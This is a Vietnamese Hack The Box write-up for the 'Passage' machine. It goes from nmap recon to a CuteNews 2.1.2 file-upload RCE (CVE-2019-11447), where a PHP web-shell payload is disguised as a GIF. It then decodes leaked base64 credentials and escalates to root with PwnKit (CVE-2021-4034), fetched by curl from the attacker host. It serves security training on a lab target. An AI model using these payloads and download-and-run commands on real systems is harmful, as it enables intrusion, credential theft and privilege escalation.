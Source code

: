 ![image](https://hackmd.io/_uploads/SJYJ_XqoC.png)

# Machine info and Comment
## Machine info
[Link](https://app.hackthebox.com/machines/275/information)

## Comment
Máy này vận dụng khả năng research CVE và kỹ thuật leo quyền từng làm : )

# Recon
## nmap 
Sau khi nmap ta scan được **2** port ssh, http
```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -n -sS 10.10.10.206       
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-26 15:22 EDT
Nmap scan report for 10.10.10.206
Host is up (0.23s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 3.02 seconds
```
Từ đây, ta sẽ scan tiếp 2 port này xem có gì để khai thác
```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p22,80 -sCV 10.10.10.206
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-26 15:23 EDT
Nmap scan report for 10.10.10.206
Host is up (0.23s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:eb:9e:23:ea:23:b6:b1:bc:c6:4f:db:98:d3:d4:a1 (RSA)
|   256 71:64:51:50:c3:7f:18:47:03:98:3e:5e:b8:10:19:fc (ECDSA)
|_  256 fd:56:2a:f8:d0:60:a7:f1:a0:a1:47:a4:38:d6:a8:a1 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Passage News
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.72 seconds
```
## Port 80 - http
Truy cập vào trang, ta được đưa đến giao diên web

![image](https://hackmd.io/_uploads/Hy9fCxosC.png)

Lướt xuống dưới cùng ta thấy nó được phát triển bởi **CuteNews** CMS

![image](https://hackmd.io/_uploads/rk1HJWosR.png)

CTRL+U và tìm thấy URL `http://10.10.10.206/CuteNews`. Khi truy cập vào ta cũng được điều hướng đến form login cũng như phát hiện version CuteNews là **2.1.2**.

![image](https://hackmd.io/_uploads/ry_FeWssR.png)

# User flag
## Exploit
Thực hiện 1 số inject cơ bản vào 2 trường này nhưng đều không phát hiện gì 

![image](https://hackmd.io/_uploads/ByiykZij0.png)

### Searchsploit
Vì recon ra được version của CMS nên ta sẽ xem có lỗ hổng gì được phát hiện không 

![image](https://hackmd.io/_uploads/B1-CbWsoC.png)

#### CVE-2019-11447
Là CVE phát hiện vấn đề trong CMS 2.1.2 CuteNews thuộc và lỗ hổng **File Upload to RCE**. Quá trình xâm nhập thông qua trường **avatar_file**. Tức là gửi file độc hại với header file signature không được filter
```
#Thay đổi header file tùy ý, ở đây là biến server hiểu là tệp GIFs
payload = "GIF8;\n<?php system($_REQUEST['cmd']) ?>"

#Truyền(upload) vào trường avatar_file
"avatar_file" : (f"{logged_user}.php", payload),
```
Ngoài ra credential cũng bị leak bởi `/CuteNews/cdata/users/lines`. Chúng dược ecode bằng b64 do đó ta có credential của các user khác

![image](https://hackmd.io/_uploads/BJ5_jWisC.png)

Cyberchef

![image](https://hackmd.io/_uploads/ryGco-js0.png)

## Post-Exploit
![image](https://hackmd.io/_uploads/rkCXhWsoC.png)

### Lateral Movement
Như đã phân tích ở trên,ta có thể phát hiện được credential của các user khác. Nên sẽ tìm xem 2 user chứa flag có nằm trong mục bị leak không 

![image](https://hackmd.io/_uploads/SJBz6WoiR.png)

Crack bằng Crackstation 

![image](https://hackmd.io/_uploads/rkQ7aZisA.png)

Switch user và lấy flag

![image](https://hackmd.io/_uploads/HyIh6WjsR.png)

# Root flag
## Exploit
Tải linPeas về máy mục tiêu và chạy file
```
$ cd /tmp
$ curl http://10.10.14.93:8888/linpeas.sh -o linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.s
```
Khi chạy LinPeas ta thấy mục tiêu dễ bị tấn công bởi **CVE-2021-4034** (PwnKit privesc). Đây là một lỗ hổng leo thang đặc quyền trong linux sử dụng [PwnKit](https://github.com/ly4k/PwnKit?ref=avitek.blog). 

![image](https://hackmd.io/_uploads/HylYoWWiC.png)

```
#Máy tấn công 
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit

#Máy mục tiêu
paul@passage:/tmp$ curl http://10.10.14.93:8888/PwnKit -o PwnKit
paul@passage:/tmp$  chmod +x PwnKit
paul@passage:/tmp$  ./PwnKit
root@passage:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root),1001(paul)
```
## Post-Exploit
```
root@passage:/tmp# cat /root/root.txt
cat /root/root.txt
3c218f18640122b117*******
```

![image](https://hackmd.io/_uploads/SJ6QfGso0.png)

